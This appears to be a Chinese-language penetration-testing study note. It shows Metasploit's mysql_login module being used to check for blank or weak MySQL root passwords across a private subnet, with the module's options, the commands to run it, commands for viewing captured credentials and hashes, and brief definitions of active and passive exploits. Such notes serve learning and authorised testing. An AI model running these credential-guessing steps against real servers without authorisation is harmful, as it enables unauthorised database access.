 
## mysql root 空密码

search mysql_login
use auxiliary/scanner/mysql/mysql_login         mysql 暴力破解
show options
    BLANK_PASSWORDS   true             no        Try blank passwords for all users
    BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
    DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
    DB_ALL_PASS       false            no        Add all passwords in the current database to the list
    DB_ALL_USERS      false            no        Add all users in the current database to the list
    PASSWORD                           no        A specific password to authenticate with
    PASS_FILE                          no        File containing passwords, one per line
    Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
    RHOSTS                             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
    RPORT             3306             yes       The target port (TCP)
    STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
    THREADS           1                yes       The number of concurrent threads (max one per host)
    USERNAME          root             no        A specific username to authenticate as
    USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
    USER_AS_PASS      false            no        Try the username as the password for all users
    USER_FILE                          no        File containing usernames, one per line
    VERBOSE           true             yes       Whether to print output for all attempts
    
    //root账号空密码
    set BLANK_PASSWORDS yes
    set USERNAME root           
    set RHOSTS 192.168.111.0/24

run / exploit 


creds   //查看账号密码信息

loot    //查看哈希的信息

vulns   //查看漏洞信息




## Exploit

### active exploit 主动

主动向被攻击者发起漏洞利用代码

### passive exploit 被动

被攻击者的一些客户端软件漏洞，如浏览器，office
